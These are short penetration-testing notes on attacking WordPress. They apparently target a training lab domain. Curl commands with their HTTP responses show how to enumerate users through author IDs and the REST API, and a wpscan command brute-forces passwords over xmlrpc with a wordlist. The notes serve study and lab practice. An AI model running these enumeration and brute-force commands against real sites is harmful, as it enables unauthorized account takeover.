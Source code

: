 # Hacking Wordpress

- **User Enumeration**
    - Existing User:
    ```bash
    curl -s -I http://blog.inlanefreight.com/?author=1

    HTTP/1.1 301 Moved Permanently
    Date: Wed, 13 May 2020 20:47:08 GMT
    Server: Apache/2.4.29 (Ubuntu)
    X-Redirect-By: WordPress
    Location: http://blog.inlanefreight.com/index.php/author/admin/
    Content-Length: 0
    Content-Type: text/html; charset=UTF-8
    ```
    - Non-Existing User:
    ```bash
    curl -s -I http://blog.inlanefreight.com/?author=100

    HTTP/1.1 404 Not Found
    Date: Wed, 13 May 2020 20:47:14 GMT
    Server: Apache/2.4.29 (Ubuntu)
    Expires: Wed, 11 Jan 1984 05:00:00 GMT
    Cache-Control: no-cache, must-revalidate, max-age=0
    Link: <http://blog.inlanefreight.com/index.php/wp-json/>; rel="https://api.w.org/"
    Transfer-Encoding: chunked
    Content-Type: text/html; charset=UTF-8
    ```

    - JSON Endpoint
    ```bash
    curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq
    curl http://blog.inlanefreight.com/?rest_route=/wp-json/wp/v2/users | jq
    ```


    - Wordpress User bruteforce
    ```bash
    wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
    ```